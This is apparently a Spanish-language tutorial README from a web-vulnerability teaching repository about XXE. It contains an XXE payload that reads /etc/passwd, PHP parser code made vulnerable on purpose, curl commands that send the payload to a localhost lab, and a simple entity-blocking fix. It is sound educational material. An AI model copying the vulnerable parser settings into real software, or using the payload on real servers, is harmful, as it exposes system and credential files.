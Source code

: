 # Ejemplo de una vulnerabilidad XXE

Una vulnerabilidad XXE permite al atacante ejecutar comandos en un servidor usando las entidad XML

### Las entidades XML

Una entidad XML funciona de forma similar a una variable, permite almacenar contienido para mostrarlo en otra parte del fichero, las entidades tipo SYSTEM permiten acceder a ficheros del sistema.

```
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> // Read the content of /etc/passwd
]>
<foo>&xxe;</foo>
```

### Codigo vulnerable

http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe.php

Este codigo muestra el contenido de un fichero XML que se le pase como parametro.

```
<?php
/* Display PHP Errors */
ini_set('display_errors', 1);
error_reporting(E_ALL);

/* Create a DOM Document */
$dom = new DOMDocument();

/* Get the XML loaded in the POST Requests */
$dom->loadXML(file_get_contents('php://input'), LIBXML_NOENT | LIBXML_DTDLOAD);

/* Convert the XML document into a SimpleXMLDocument*/
$parsed = simplexml_import_dom($dom);

/* Shows the result */
echo $parsed;
?>
```

Puedes enviar un fichero al sitio web usando el comando curl.

```
curl -X POST http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe.php  -H "Content-Type: text/xml; charset=UTF-8" --data-binary @safe.xml
```

![alt text](./images/xxe_safe_example.png)

Si envias un fichero XML con entidades SYSTEM puedes acceder a los ficheros del sistema.

```
curl -X POST http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe.php  -H "Content-Type: text/xml; charset=UTF-8" --data-binary @xxe_payload_passwords.xml
```
![alt text](./images/xxe_passwd.png)

### Codigo seguro

Para eliminar esta vulnerabilidad lo ideal sería prohibir la ejecución de ficheros XML con entidades.

```
/* If the XML Document contains entities finish the execution */
if (strpos(file_get_contents('php://input'), "<!ENTITY") !== false){
    die("No se permiten entidades externas");
}
```

Envia el payload del fichero etc/paswd al script PHP seguro.

```
curl -X POST http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe_secured.php  -H "Content-Type: text/xml; charset=UTF-8" --data-binary @xxe_payload_passwords.xml
```

![alt text](./images/fail_xxe_passwd.png)

